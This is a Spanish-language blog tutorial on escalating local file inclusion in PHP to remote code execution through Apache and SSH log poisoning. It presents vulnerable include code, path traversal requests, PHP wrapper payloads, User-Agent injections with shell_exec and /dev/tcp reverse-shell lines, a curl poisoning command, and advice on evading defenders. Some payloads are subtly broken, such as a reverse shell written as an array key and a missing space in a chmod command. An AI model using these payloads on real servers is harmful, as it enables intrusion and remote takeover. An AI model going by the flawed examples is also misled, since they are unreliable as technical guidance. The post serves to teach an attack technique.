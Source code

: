 ```yaml
---
title: "De LFI a RCE - Log Poisoning (SSH, Apache logs)"
layout: single
excerpt: Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona. 
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
  teaser_home_page: true
  icon: "https://user-images.githubusercontent.com/69093629/120226864-584ff100-c248-11eb-8809-dabcbeecbddf.png"
categories:
  - Vulnerabilities
tags:
  - LFI
  - RCE
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/121780344-1c9a1d00-cba0-11eb-87b7-3860738c2d97.jpg">
</p>

Antes de empezar explicando como conseguir RCE explotando una vulnerabilidad de Inclusión de archivos locales, primero necesitamos saber que es y como funciona.
“Local File Inclusion” es una vulnerabilidad que te permite incluir archivos locales a un servidor a causa de una mala programación en cuanto a “back-end”, esta vulnerabilidad está presente en PHP, JSP, ASP entre otros.

## Explotación de la vulnerabilidad

Imaginemos que tenemos este código en un archivo PHP.

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("$file"); 
   } 
?>
```

Este código es vulnerable a LFI porque estamos declarando el parámetro “file” sin ningún tipo de sanitización, por lo tanto nos permitiría incluir archivos en el servidor.

**Petición Legítima:**

```php
http://192.168.1.144/test.php?file=contact.php
```

**Petición malintencionada:**

```php
http://192.168.1.144/test.php?file=/etc/hosts
```

Como vemos en la segunda petición que tramitamos al servidor web es diferente a la primera, en la segunda estamos explotando un LFI en toda regla, por lo que la respuesta de parte del servidor es un 200 OK, es decir el recurso solicitado existe, en este caso nos devolvería el contenido del archivo “/etc/hosts”.

Hay programadores que reconocen este tipo de vulnerabilidad web e intentan sanitizar el código de alguna manera:

```php
<?php 
   $file = $_GET['file'];
   if(isset($file)) 
   { 
   include("lib/functions/$file");
   }
?>
```

Aquí solo seria cuestión de hacer un “Directory Path Traversal”, es decir volver directorios atrás para apuntar al recurso solicitado “../../etc/hosts”. Cabe decir que este ejemplo es simple, se puede complicar mucho más.

## Wrapper
Un "**Wrapper**" en LFI es una envoltura que incorpora PHP, se introduce en la URL al tramitar la petición al servidor legítimo. Hay distintos tipos de "**Wrappers**" y cada uno para una función en específico, los más comunes son:

```php
expect://: http://192.168.1.144/test.php?file=expect://whoami
filter://: http://192.168.1.144/test.php?file=php://filter/convert.base64-encode/resource=test.php
data://: http://192.168.1.144/test.php?file=data:text/plain;,<?php echo shell_exec($_GET[‘cmd’]);?>
``` 

## ¿Cómo conseguir RCE de un LFI?

Se puede conseguir "**Remote Code Execution**" de distintas formas, pero aquí solo explicaré unas cuantas. En LFI hay una técnica para conseguir RCE llamada "**Log Poisoning**", consiste en envenenarlos .log de Apache o SSH.

Los logs son archivos que dejan registro de lo que haces, un ejemplo seria cuando accedes al servidor web, lo que haces es verificar si el recurso que solicitas existe y eso lo haces mediante una petición de tipo GET, pues eso se queda registrado en estos archivos, cada servicio tiene su propio archivo .log, en este caso nos centraremos solo en Apache y SSH.

Te estarás preguntando ¿Cómo concateno un LFI con un “Log Poisoning”?

**Buena pregunta!!!**, pues es más sencillo de lo que parece. Primero debemos saber cuál es la ruta de estos logs, el archivo de logs de Apache se sitúa en ```/var/log/apache2/access.log``` y el de SSH ```/var/log/auth.log```, le damos permiso de lectura y escritura a la carpeta de los logs de Apache con ```chmod 755/var/log/apache2``` y ```chmod 755 /var/log/auth.log``` para el archivo de los logs de SSH para que podamos visualizar su contenido.
Bien, tenemos medio trabajo hecho, ahora solo faltaría envenenar estos logs, lo que tendríamos que hacer es tramitar una petición a la ruta donde se encuentran los logs y cambiar el “**UserAgent**”, vamos a utilizar “**BurpSuite**” para hacerlo, también se puede utilizar “**Curl**” para más rapidez. Usaré “**BurpSuite**” para ver como se comporta la petición por detrás y sea más claro.

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226068-c09dd300-c246-11eb-9300-198cce165d89.png">
</p>

Como vemos en la foto anterior hemos interceptado la petición con “**BurpSuite**”, ahora la mandamos al “**Repeater**” para modificarla a nuestra manera, cambiamos el “**User-Agent**” y ponemos nuestras sentencias maliciosas en *PHP*:

```php 
<?php system($_GET['sh >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_GET['cmd']); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226156-efb44480-c246-11eb-8e66-0cea44ec83e8.png">
</p>

Enviamos la petición maliciosa al servidor y…

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226181-ffcc2400-c246-11eb-898c-0b9348b621f5.png">
</p>

Lo malo aquí es que las peticiones se emiten por tipo GET, esto quiere decir que se verían reflejadas en los logs y sería muy fácil para el “**Blue-Team**” pillar-nos, para ponérselos más difícil lo ideal seria cambiar el tipo de petición a POST o REQUEST.

```php
<?php system($_REQUEST['bash >& /dev/tcp/192.168.1.144/443 ']); ?>

<?php shell_exec($_POST['cmd']); ?>
```

Utilizando “**Curl**” sería algo un poco más complejo de entender, pero nada del otro mundo:

```php 
~$ curl -s -X REQUEST -A "<?php system($_REQUEST['whoami']); ?>" "http://192.168.1.144/test.php?file=/var/log/apache2/access.log"
```

Lo que estamos haciendo es enviar una petición por REQUEST para que no se vea reflejada en él *.log* y en modo “**silent**” para no ver la respuesta de lado del servidor, el parámetro “**-A**” es para modificar el “**UserAgent**” a nuestra manera y por último le especifico a que URL quiero enviarla.
Para envenenar los logs de SSH es aún más sencillo, en vez de poner un “**user**” en el campo correspondiente para la conexión con SSH, ponemos la sentencia maliciosa de *PHP* entre comillas simples seguida de una arroba y la IP del sistema.

```php
<?php system(‘whoami’); ?>
```

<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/120226346-4b7ecd80-c247-11eb-817b-8eef893fd0d0.png">
</p>
